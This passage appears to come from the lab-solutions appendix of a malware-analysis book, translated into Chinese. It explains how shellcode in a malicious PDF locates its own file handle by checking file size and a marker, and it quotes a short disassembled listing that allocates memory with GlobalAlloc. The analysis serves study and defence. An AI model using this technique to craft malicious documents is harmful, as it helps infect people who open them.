寻找恶意媒体文件打开句柄的技术的一种变体涉及检查文件大小是否满足某个最小值，此时 shellcode 将在文件中搜索特定的标记以确认它是正确的句柄。这种变体使编写者免去了在 shellcode 中存储输出文件确切大小的需要。

列表 19-16L 中的 shellcode 根据嵌入数据中偏移量为 0x44 的值在  处分配一块内存。这个存储的值是恶意 PDF 中第一个访问的文件的大小。

000001D1 将 edx 与自己异或

000001D3 将 [ebx+44h] 的双字指针压入堆栈 

**708**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

000001D6 将 edx 压入堆栈

000001D7 调用 [ebx+sc0.GlobalAlloc]

000001DA 测试 eax, eax

000001DC 如果为零则跳转到 loc_313

000001E2 将 eax 存入 [ebp-0Ch]

000001E5 将 edx 与自己异或

000001E7 将 edx 压入堆栈
